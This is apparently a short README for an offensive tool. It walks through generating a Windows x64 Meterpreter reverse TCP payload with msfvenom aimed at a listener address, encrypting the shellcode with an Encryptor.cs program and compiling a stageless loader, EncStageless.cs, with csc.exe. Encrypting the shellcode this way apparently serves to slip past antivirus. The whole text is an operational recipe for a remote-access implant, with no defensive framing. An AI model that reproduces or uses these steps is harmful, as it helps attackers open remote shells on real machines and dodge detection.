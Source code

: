 1. Create a payload
```Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.2.29 LPORT=4444 -f csharp
```

2. Paste the payload to Encryptor.cs
3. Compile and copy the output encrypted payload
```CMD
csc.exe Encryptor.cs
```
4. Paste the encrypted payload in the EncStageless.cs
5. compile the EncStageless.cs file
```CMD
csc.exe EncStageless.cs
```


